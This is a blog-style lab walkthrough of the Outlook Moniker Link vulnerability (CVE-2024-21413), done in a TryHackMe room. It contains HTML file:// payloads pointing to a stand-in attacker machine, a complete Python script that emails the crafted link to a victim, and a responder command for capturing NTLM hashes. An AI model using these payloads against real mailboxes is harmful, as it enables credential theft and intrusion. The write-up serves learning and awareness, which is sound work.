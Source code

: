 ```yaml
---
categories: [CVE-hunt, CVE-2024-21413]
tags: [Microsoft RCE]     # TAG names should always be lowercase
author: Darshan
description: The Outlook Moniker Link CVE-2024-21413 vulnerability allows attackers to exploit Remote Code Execution (RCE) via specially crafted email links.
image:
    path: /assets/img/Banners/moniker-link.png
pin: false
---
```


On February 13th, 2024, Microsoft announced a Microsoft Outlook RCE & credential leak vulnerability with the assigned CVE of [CVE-2024-21413](https://www.cve.org/CVERecord?id=CVE-2024-21413) (Moniker Link). Haifei Li of Check Point Research is credited with discovering the vulnerability.

## Scoring of the vulnerability:

| **CVSS** | **Description** |
| --- | --- |
| Publish date | February 13th, 2024 |
| MS article | [https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413) |
| Impact | Remote Code Execution & Credential Leak |
| Severity | Critical |
| Attack Complexity | Low |
| Scoring | 9.8 |

## Explanation:

Outlook can render emails as HTML. Additionally, Outlook can parse hyperlinks such as HTTP and HTTPS. However, it can also open URLs specifying applications known as [Moniker Links](https://learn.microsoft.com/en-us/windows/win32/com/url-monikers).

but there is Protected view in outlook which opens contents in only read-only mode blocking such as macros.

By using the **`file://`** Moniker Link in our hyperlink, we can instruct Outlook to attempt to access a file, such as a file on a network share (**`<a href="file://ATTACKER_IP/test>Click me</a>`**). The SMB protocol is used, which involves using local credentials for authentication. However, Outlook's "Protected View" catches and blocks this attempt.

```html
<p><a href="file://ATTACKER_MACHINE/test">Click me</a></p>
```

The vulnerability here exists by modifying our hyperlink to include the **`!`** special character and some text in our Moniker Link which results in bypassing Outlook’s Protected View. 

For example: 

```html
<p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>
```

This vulnerability uses the Component Object Model (COM) technology in Windows. COM is a system for enabling software components to communicate, which helps applications like Outlook interact with other Microsoft programs, such as Word. By exploiting this, an attacker can create a special link that, when clicked, automatically opens the file in Word without Protected View. This method allows attackers to run commands, possibly even malicious code, on the victim's machine without obvious warning signs.

## Exploitation:

For the exploitation we’ll use the TryHackMe’s this lab: https://tryhackme.com/r/room/monikerlink

In this lab we have given a windows machine and the vulnerable Outlook version.

Open that Outlook and we can see our Target: `victim@monikerlink.thm`

![image.png](/assets/img/CVE/image.png)

Now to exploit this vulnerability we have to create a crafted email with moniker link. For that we can use the exploit available on github: 

https://github.com/CMNatic/CVE-2024-21413

```python
'''
Author: CMNatic | https://github.com/cmnatic
Version: 1.0 | 19/02/2024
'''

import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.utils import formataddr

sender_email = 'attacker@monikerlink.thm' # Replace with your sender email address
receiver_email = 'victim@monikerlink.thm' # Replace with the recipient email address
password = input("Enter your attacker email password: ")
html_content = """\
<!DOCTYPE html>
<html lang="en">
    <p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>

    </body>
</html>"""

message = MIMEMultipart()
message['Subject'] = "CVE-2024-21413"
message["From"] = formataddr(('CMNatic', sender_email))
message["To"] = receiver_email

# Convert the HTML string into bytes and attach it to the message object
msgHtml = MIMEText(html_content,'html')
message.attach(msgHtml)

server = smtplib.SMTP('MAILSERVER', 25)
server.ehlo()
try:
    server.login(sender_email, password)
except Exception as err:
    print(err)
    exit(-1)

try:
    server.sendmail(sender_email, [receiver_email], message.as_string())
    print("\n Email delivered")
except Exception as error:
    print(error)
finally:
    server.quit()
```

Few Changes has to be made for this exploit to work:

- Change `ATTACKER_MACHINE` with the IP of attacker’s machine.
- Change `MAILSERVER` with the IP of the Victim’s machine.

Other than this we require a SMTP/SMB server to ensure the email sent bypasses common email validation checks such as SPF (Sender Policy Framework), DKIM (DomainKeys Identified Mail), and DMARC (Domain-based Message Authentication, Reporting, and Conformance).

For this we’ll use the `responder` command. It acts as a rogue server to intercept network authentication requests by responding to services.

Command:

```python
responder -I <interface_name (such as tun0,ens5)>
```

After setting us server we’ll run this code:

![image.png](/assets/img/CVE/image%201.png)

Check the Outlook’s mail box

![image.png](/assets/img/CVE/image%202.png)

Click that button and we get the NTLM hash of the victim.

![Screenshot 2024-11-01 235959.png](/assets/img/CVE/image%203.png)

This is how the vulnerability is exploited and this can be even worse. Attacker can literally get the Remote Code Execution on the victim’s machine.

*Thank you for reading!! ;)*